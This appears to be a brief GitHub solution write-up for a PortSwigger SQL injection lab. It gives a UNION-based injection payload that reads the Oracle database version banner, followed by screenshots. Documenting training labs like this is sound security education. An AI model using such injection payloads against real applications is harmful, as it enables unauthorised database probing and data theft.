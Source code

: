 ## Lab Description
![image](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/927f9c0c-eb80-4496-89e3-44d62236418e)

### Solution

Use the following payload to display the database version:

`'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`

![1](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/06fc2839-a5c9-4751-92df-7e6b121c452e)

The database version is displayed.

![2](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/2c01ed70-7ae4-4a69-b149-c46cc5c9a39e)

![3](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/381ddf0b-16e5-4504-bbc4-582570b926f2)
